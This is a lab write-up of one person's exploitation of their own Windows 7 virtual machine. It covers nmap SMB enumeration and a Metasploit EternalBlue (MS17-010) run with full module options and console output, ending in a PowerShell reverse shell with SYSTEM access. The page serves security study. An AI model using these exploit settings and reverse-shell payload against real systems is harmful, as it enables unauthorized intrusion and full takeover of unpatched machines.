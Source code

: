 ## Box: [Blue] — Started: 2025-10-14 21:10

**IP/Host:** Local VM, `MAC: 00:0c:29:21:0B:A3`  |  **Status:** `owned - 2025-10-14 23:27`

current session IP:
192.168.109.130
### TL;DR

Initial: `how in`. PrivEsc: `how root`.

**Key Takeaways**:
The first time I ran this exploit (not pictured here), it actually crashed the network connection. The login screen to the machine still looked functional, but ping no longer located the machine and I wasn't able to run the exploit anymore because the box wasn't findable.

*This is good to note*: RCE exploits can disable key functionality or bring down a machine entirely. When dealing with Key infrastructure, **USE CAUTION** and get perms first, otherwise you could end up harming someone

*Cumulative Impact Overview*:
- RCE
- `nt authority/system` user access

### Exploit Lifecycle

1. *Validation & Recon*: Local VM, personally owned machine -> valid to exploit
2. *Enumeration & Scanning*:

- `nmap -sV 192.168.109.130`
```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
```

**NOTE**: SMB possibly vulnerable. Checking...

- NMAP scripts first: `nmap -sC -p 445 192.168.109.130`
```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-14 21:24 EDT
Nmap scan report for 192.168.109.130
Host is up (0.00020s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:21:0B:A3 (VMware)

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-10-15T01:24:06
|_  start_date: 2025-10-15T03:07:26
|_nbstat: NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:21:0b:a3 (VMware)
| smb-os-discovery: 
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: WIN-845Q99OO4PP
|   NetBIOS computer name: WIN-845Q99OO4PP\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-10-14T21:24:06-04:00
|_clock-skew: mean: 1h19m59s, deviation: 2h18m33s, median: 0s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
```
- Potentially SMB v2, let's validate in Metasploit


- Metasploit SMB Version scanner:
```bash
msf auxiliary(scanner/smb/smb_version) > run
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.21/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 192.168.109.130:445   - SMB Detected (versions:1, 2) (preferred dialect:SMB 2.1) (signatures:optional) (uptime:) (guid:{048d4194-ec4a-43ba-b0ea-e937d89721f3}) (authentication domain:WIN-845Q99OO4PP)
[+] 192.168.109.130:445   -   Host is running Windows 7  Ultimate  SP1  (build:7601)
[*] 192.168.109.130       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/smb/smb_version) > 
```

- Preferred dialect: SMB 2.1
    - Lets look for vulnerabilities for Win7 using smb2.1


3. *Findings & Exploits*:
    - EternalBlue: https://www.exploit-db.com/exploits/42315
        - Module: `exploit/windows/smb/ms17_010_eternalblue` w/ payload `windows/x64/powershell_reverse_tcp` -> SUCCEEDS to `root`
4. *PrivEsc*:
    - No privesc needed, exploit drops you into root shell

5. *Proof — path to flags/screenshot of boxpwn*:

- Setup:
    - SMBDomain -> `ADMIN$`
    - payload -> `windows/x64/powershell_reverse_tcp`

```powershell
msf exploit(windows/smb/ms17_010_eternalblue) > run
[*] Started reverse TCP handler on 192.168.109.128:4444 
[*] 192.168.109.130:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.109.130:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.109.130:445   - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.109.130:445 - The target is vulnerable.
[*] 192.168.109.130:445 - Connecting to target for exploitation.
[+] 192.168.109.130:445 - Connection established for exploitation.
[+] 192.168.109.130:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.109.130:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.109.130:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61  Windows 7 Ultima
[*] 192.168.109.130:445 - 0x00000010  74 65 20 37 36 30 31 20 53 65 72 76 69 63 65 20  te 7601 Service 
[*] 192.168.109.130:445 - 0x00000020  50 61 63 6b 20 31                                Pack 1          
[+] 192.168.109.130:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.109.130:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.109.130:445 - Sending all but last fragment of exploit packet
[*] 192.168.109.130:445 - Starting non-paged pool grooming
[+] 192.168.109.130:445 - Sending SMBv2 buffers
[+] 192.168.109.130:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.109.130:445 - Sending final SMBv2 buffers.
[*] 192.168.109.130:445 - Sending last fragment of exploit packet!
[*] 192.168.109.130:445 - Receiving response from exploit packet
[+] 192.168.109.130:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.109.130:445 - Sending egg to corrupted connection.
[*] 192.168.109.130:445 - Triggering free of corrupted buffer.
[*] Powershell session session 1 opened (192.168.109.128:4444 -> 192.168.109.130:49158) at 2025-10-14 22:36:01 -0400
[+] 192.168.109.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.109.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.109.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

PS C:\Windows\system32> whoami
nt authority\system

```
### Findings

- **CONFIRMED** *- Found*: PORT 139/445 - 192.168.109.130 - 2025-10-14 21:51:35 - SMB 2.1 on Win7 client vulnerable to eternal blue. Allows for remote code execution, and payload `exploit/windows/smb/ms17_010_eternalblue` provides immediate access to root-level user, 

### Full shell log of successful session
```bash
msf payload(windows/powershell_reverse_tcp) > use exploit/windows/smb/ms17_010_eternalblue
[*] Using configured payload windows/x64/powershell_reverse_tcp
msf exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.109.130  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-met
                                             asploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008
                                             R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2,
                                             Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7,
                                              Windows Embedded Standard 7 target machines.


Payload options (windows/x64/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   EXITFUNC      thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST         192.168.109.128  yes       The listen address (an interface may be specified)
   LOAD_MODULES                   no        A list of powershell modules separated by a comma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf exploit(windows/smb/ms17_010_eternalblue) > set SMBDomain ADMIN$
SMBDomain => ADMIN$
msf exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.109.130  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-met
                                             asploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain      ADMIN$           no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008
                                             R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2,
                                             Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7,
                                              Windows Embedded Standard 7 target machines.


Payload options (windows/x64/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   EXITFUNC      thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST         192.168.109.128  yes       The listen address (an interface may be specified)
   LOAD_MODULES                   no        A list of powershell modules separated by a comma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf exploit(windows/smb/ms17_010_eternalblue) > check
[*] 192.168.109.130:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.109.130:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.109.130:445   - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.109.130:445 - The target is vulnerable.
```